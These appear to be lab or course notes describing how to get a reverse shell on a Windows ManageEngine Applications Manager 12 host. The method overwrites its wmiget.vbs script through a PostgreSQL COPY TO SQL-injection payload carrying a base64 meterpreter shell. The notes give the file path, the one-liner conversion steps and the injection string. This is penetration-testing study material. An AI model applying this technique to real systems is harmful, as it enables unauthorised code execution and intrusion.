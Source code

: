 ## VBA files
The first method to get a reverse shell is to introduce malicious code into the VBS files that are used by the ManageEngine application during normal operation.
These scripts are located in the following directory:

```path
C:\Program\ Files\ (x86)\ManageEngine\AppManager12\working\conf\application\scripts
```

Exploring procmon, we can see the script that we need to introduce malicious code to, to get a reverse shell:

![](../../03.%20Images/t2-ss13.png)

With this, we can now navigate to the file and explore it's contents.
We do not need to understand the contents, however, we need to preserve them and add a meterpreter generated reverse shell after it, all in one line as copy to function does not take new line characters.

To make the existing wmiget.vbs(and also our reverse shell) file into a one-liner we will find and replace the following:

```
1. find and replace '.* with nothing -- will remove all the comments
2. find and replace _.*?\n with nothing -- will remove the continuation lines
3. find and replace \t with nothing -- will remove all tabs
4. find and replace \n with : -- will remove all new lines
5. find and replace \r\n with : -- will remove all carraige return
6. find and replace :: with : 
```

Once we've done this, we can then merge the contents of our shell and the wmiget file and wait for 1 minute as our shell gets executed:

![](../../03.%20Images/t2-ss14.png)

Now- we can put our shellcode into the following payload:

```sql
copy+(select+convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$))+to+$$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```

We need to send our payload in a POST request as a GET request has limit and our payload crosses the URL limit.
Sending our payload, we receive the reverse shell in under 1 minute:

![](../../03.%20Images/t2-ss15.png)

However, this approach may not always be possible because it is specific to the ManageEngine installations running on Windows hosts. Because of this we need a more generic approach in the remainder of this module .